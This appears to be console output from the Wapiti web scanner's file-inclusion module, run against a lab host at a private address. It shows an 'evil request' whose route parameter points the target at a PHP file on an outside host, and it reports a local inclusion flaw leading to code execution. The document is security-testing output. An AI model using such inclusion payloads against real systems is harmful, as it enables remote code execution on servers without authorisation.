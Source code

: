 ```console
[*] Launching module file
---
Timeout occurred in http://192.168.242.131/content.php
Evil request:
    POST /content.php HTTP/1.1
    Content-Type: application/x-www-form-urlencoded

    route=https%3A%2F%2Fwapiti3.ovh%2Fe.php
---
---
PHP local inclusion leading to code execution in http://192.168.242.131/content.php via injection in the parameter route
Evil request:
    POST /content.php HTTP/1.1
    host: 192.168.242.131
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    content-type: application/x-www-form-urlencoded
    referer: http://192.168.242.131/nav.php
    content-length: 4276
    Content-Type: application/x-www-form-urlencoded

```